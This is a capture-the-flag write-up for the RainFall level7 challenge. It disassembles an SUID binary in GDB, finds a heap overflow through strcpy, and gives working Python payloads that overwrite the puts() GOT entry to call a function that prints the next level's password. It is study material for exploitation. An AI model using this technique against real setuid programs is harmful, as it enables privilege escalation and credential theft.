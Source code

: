 ```sh
level7@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42 42
~~
level7@RainFall:~$ ./level7 42 42 42
~~
```
There is one excutable file **level7**, if we give less then 2 arguments, its segmentation falut, start of 2 arguments, it prints just "~~". \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x080484f4  m
0x08048521  main
...
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave  
   0x08048520 <+44>:    ret    
End of assembler dump.
(gdb) disas main
...
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    0xc(%ebp),%eax
   0x080485a8 <+135>:   add    $0x8,%eax
   0x080485ab <+138>:   mov    (%eax),%eax
   0x080485ad <+140>:   mov    %eax,%edx
   0x080485af <+142>:   mov    0x18(%esp),%eax
   0x080485b3 <+146>:   mov    0x4(%eax),%eax
   0x080485b6 <+149>:   mov    %edx,0x4(%esp)
   0x080485ba <+153>:   mov    %eax,(%esp)
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    $0x80486e9,%edx
   0x080485c7 <+166>:   mov    $0x80486eb,%eax
...
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    %eax,0x8(%esp)
   0x080485dc <+187>:   movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:   movl   $0x8049960,(%esp)
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
...
```
We can see fopen gets two parameters, in the line main+161, main+166.
```sh
(gdb) x/s 0x80486eb
0x80486eb:       "/home/user/level8/.pass"
(gdb) x/s 0x80486e9
0x80486e9:       "r"
```
and in the main+202, fgets also takes 3 arguments, we can see return value of fopen, 0x44(68) and 0x8049960.
```sh
(gdb) x/s 0x8049960
0x8049960 <c>:   ""
```
c is one of global variable, So it seems be like this.
```c
fgets(c, 68, fopen("/home/user/level8.pass", "r"));
```
And we can see also something in ```m()``` function line 13-38,
```sh
(gdb) x/s 0x80486e0
0x80486e0:       "%s - %d\n"
(gdb) x/s 0x8049960
0x8049960 <c>:   ""
```
So printf should be like
```c
printf("%s - %d\n", c, time(0));
```
The global variable ```c``` takes .pass of level8 with fgets, and the ```m()``` function prints the value of c. but in the main, there is nowhere calling the function ```m()```. \
Let's try buffer overflow strcpy.
```sh
(gdb) r aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7 BBBB
Starting program: /home/user/level7/level7 aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7 BBBB

Program received signal SIGSEGV, Segmentation fault.
0xb7eb1922 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
there is no overflow until EIP register, but we can see
```sh
(gdb) i r
eax            0x42424242       1111638594
ecx            0xbffff905       -1073743611
edx            0x37616136       929128758
ebx            0xb7fd0ff4       -1208152076
...
Enter the hex value to find (e.g., 0x63613563): 0x37616136
Little Endian ASCII representation: '6aa7'
'6aa7' found at offset: 20
...
level7@RainFall:~$ ltrace ./level7 aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7 BBBB
__libc_start_main(0x8048521, 3, 0xbffff7a4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                      = 0x0804a008
malloc(8)                                                      = 0x0804a018
malloc(8)                                                      = 0x0804a028
malloc(8)                                                      = 0x0804a038
strcpy(0x0804a018, "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab"...)      = 0x0804a018
strcpy(0x37616136, "BBBB" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
```
EDX registers are corrupted in the offset 20. and the value of EAX is second argument, we can think the first ```strcpy()``` is done, but second ```strcpy()``` try the address of ```0x37616136``` with argument ```BBBB```. \
So we can find point of overwrite, after saving data to global variable ```c``` with ```fopen()```, its ```puts()```.
```sh
(gdb) disas main
...
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
...
(gdb) x/i 0x8048400
   0x8048400 <puts@plt>:        jmp    *0x8049928
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
```
So, for the first argument, we put 20 bytes of something + ```puts()``` GOT address and address of ```m()``` function in second argument.
```sh
level7@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa" + "\x28\x99\x04\x08"' > /tmp/exploit7
level7@RainFall:~$ python -c 'print "\xf4\x84\x04\x08"' > /tmp/exploit77
level7@RainFall:~$ ./level7 $(cat /tmp/exploit7) $(cat /tmp/exploit77)
(hidden)
 - 1733521467
```
level7 passed !